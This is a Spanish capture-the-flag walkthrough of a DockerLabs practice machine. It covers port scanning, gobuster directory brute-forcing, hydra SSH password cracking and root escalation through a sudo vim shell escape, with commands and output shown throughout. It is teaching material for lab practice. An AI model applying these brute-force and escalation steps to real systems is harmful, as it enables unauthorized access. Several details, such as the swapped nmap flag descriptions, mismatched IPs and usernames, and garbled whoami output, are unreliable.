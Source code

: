 ## WRITEUP DE LA MAQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.18.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 17:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.18.0.2):

![debian](https://github.com/user-attachments/assets/82918d95-2d7b-4b3b-9ae1-0b45d656d6f8)

Vamos a optar por hacer un ataque de fuerza bruta mediante la herramienta gobuster. Lo que vamos a intentar es encontrar directorios o ficheros ocultos que nos den pistas.

```
└─$ gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.18.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

El resultado:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]

```

Vemos algo sospechoso, "/secret.php" nos da a entender que ahí hay algo. En la URL junto al 172.18.0.2 escribimos ese fichero php y vemos esta página:

![mario](https://github.com/user-attachments/assets/47f32699-43fd-4125-9072-c091674cbf37)

Al ser una máquina tan sencilla se entiende que ese tal Mario será el nombre de usuario al que a continuación intentaremos conectarnos mediante ssh, pero antes de eso necesitamos saber su contraseña. Lo haremos mediante fuerza bruta esta vez con la herramienta hydra:

```
└─$ hydra -l mario -P /home/kali/Desktop/rockyou.txt ssh://172.18.0.2 -t 5
```

"-l mario" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.18.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Obtenemos lo siguiente:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 17:16:37
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.18.0.2:22/

[22][ssh] host: 172.18.0.2   login: mario   password: chocolate

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 17:17:31
```

Sabemos que la contraseña es "chocolate", ahora si, nos conectamos mediante ssh y ponemos dicha contraseña:

```
ssh mario@178.18.0.2
```

```
mario@0887a732b61d:~$ whoami
mario@0887a732b61d:~$ mario
```

Toca escalar privilegios. Escribimos el comando "sudo -l" el cual permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado). 

```
mario@0887a732b61d:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 0887a732b61d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0887a732b61d:
    (ALL) /usr/bin/vim
```

Vamos a explotar el binario vim mediante el sitio web GTFObins (https://gtfobins.github.io/#) para escalar privilegios. Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
mario@0887a732b61d:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!
